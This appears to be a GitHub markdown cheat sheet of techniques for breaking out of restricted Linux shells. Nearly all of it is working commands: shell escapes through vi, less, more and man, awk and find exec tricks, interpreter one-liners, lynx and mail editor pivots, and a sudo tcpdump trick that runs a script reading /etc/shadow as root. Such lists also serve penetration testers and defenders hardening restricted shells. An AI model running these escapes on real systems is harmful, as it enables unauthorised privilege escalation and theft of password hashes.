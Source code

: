 # Escaping Restricted Linux Shells

## Use echo command with glob if ls is not present
## to list files have access to in the restricted shell

echo /usr/local/rbin/*

## Editors

:set shell=/bin/bash
:shell

:! /bin/bash

# Awk command

awk 'BEGIN {system("/bin/sh")}'

# Find command

find / -name blahblah -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

# More, Less, and Man commands

'! /bin/sh'\
'!/bin/sh'\
'!bash'

# Less

sudo less /etc/file\
v\
:shell

# Write script with tee command

echo "evil script code" | tee script.sh

# Try invoking SHELL throught your favorite language

python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()\
perl -e 'exec "/bin/sh";'\
perl: exec "/bin/sh";\
ruby: exec "/bin/sh"\
lua: os.execute('/bin/sh')\
irb(main:001:0> exec "/bin/sh"

# lynx

open a local file with lynx (e.g.: $ lynx /etc/passwd)\
type “o” to open the options; change the second option (Editor) to “/bin/vi” and save the changes to go back at the main page.\
Type “e” to edit the file with vi\
Do the vi escape

# Mail command

set VISUAL=/bin/vi\
$ mail -s "subject" "destination email"\
Type "~v" on the next line to edit the mail with vi.

# tcpdump

echo $'id\ncat /etc/shadow' > /tmp/.test\
chmod +x /tmp/.test\
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

# find
sudo find / -exec bash -i \;\
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;

# rvim
```sh
python import pty;pty.spawn("/bin/bash")
```
